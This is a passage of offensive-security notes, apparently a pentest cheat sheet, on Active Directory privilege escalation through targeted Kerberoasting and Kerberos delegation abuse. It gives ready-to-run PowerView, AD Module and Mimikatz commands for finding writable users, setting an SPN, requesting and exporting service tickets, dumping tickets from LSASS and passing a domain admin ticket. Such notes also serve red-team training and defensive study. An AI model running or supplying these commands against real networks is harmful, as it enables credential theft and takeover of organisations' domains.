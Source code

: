 #### Privilege Escalation - Kerberoast: Targeted Kerberoasting - Set SPN
* With enough rights (GenericAll/GenericWrite), a target user's SPN can be set to anything (unique in the forest)
* Then, we can request a TGS without any special privs. The TGS can then be Kerberoasted. It doesn't matter if there's actually a service running, or if the SPN makes any sense at all.
1. Enumerate users to which we have the required rights `Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"}` (PowerView)
2. See if the user already has an SPN
    * `Get-DomainUser -Identity supportuser | select serviceprincipalname` (PowerView)
    * `Get-ADUser -Identity supportuser -Properties ServicePrincipalName | select ServicePrincipalName`
(AD Module)
3. Set SPN for user (must be unique in domain)
    * `Set-DomainObject -Identity support1user -Set @{serviceprincipalname='ops/whatever1'}` (PowerView)
    * `Set-ADUser -Identity support1user -ServicePrincipalNames @{Add='ops/whatever1'}` (AD Module)
4. Request ticket
    * `Request-SPNTicket -SPN "ops/whatever1"` (PowerView)
    * `Add-Type -AssemblyName System.IdentityModel` <br/>
     `New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "ops/whatever1"` (AD Module)
    * `klist` to verify
5. Export ticket `Invoke-Mimikatz -Command '"kerberos::list /export"'`
6. Crack password

#### Privilege Escalation - Kerberos Delegation
* Basic example: allows web server to make requests to DB server as the logged-in user.
  * user sends TGT with (web) TGS to web server. TGT is embedded in TGS when service has unconstrained delegation enabled
  * web server uses user's TGT to request a TGS for the DB server from the DC
  * web server connects to DB server as the user
* Accounts can be marked 'sensitive' and cannot be delegated - typically Privileged Accounts
* Types:
  * **Unconstrained Delegation (aka General or Basic Delegation)** - allows the first hop server (web in our example) to request access to any service on any computer in the domain
    * When set for a service account, allows delegation to any service or any resource on the domain as a user
    * When enabled, DC places user's TGT inside TGS. When presented to the server with unconstrained delegation, TGT is extracted from TGS and stored in LSASS. Server can now reuse TGT to access any other resource as the user
    * Can therefore escalate privileges if we get Local Admin on a computer with unconstrained delegation and a DA connects to the machine.
    1. Discover computers with unconstrained delegation:
      * `Get-NetComputer -Unconstrained` (PowerView)
      * `Get-ADComputer -Filter {TrustedForDelegation -eq $True}` <br/> `Get-ADUser -Filter {TrustedForDelegation -eq $True}` (AD Module)
      * NB: DCs always show up as unconstrained - ignore them
    1. Compromise the server(s) where unconstrained delegation is enabled
    1. Check if DA token is available and export
      * `Invoke-Mimikatz -Command '"sekurlsa::tickets"'` <br/> `Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'`
    1. Reuse DA token 
      * `Invoke-Mimikatz -Command '"kerberos::ptt C:\path\file.kirbi"`
  * **Constrained Delegation** - allows the first hop server to request access to only specified services on specified computers.
    * Service for User (S4U) extension used to impersonate the user
      * Service for User to Self (S4U2self) - allow service to obtain forwardable TGS to itself on behalf of user (e.g. Non-Kerberos authentication to Kerberos Authentication). Service account must have the *TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION - T2A4D UserAccountControl* attribute
      * Service for User to Proxy (S4U2proxy) - allow service to obtain TGS to a 2nd service on behalf of user. *msDS-AllowedToDelegateTo* attribute of the service account contains a list of SPNs to which the user tokens can be forwarded.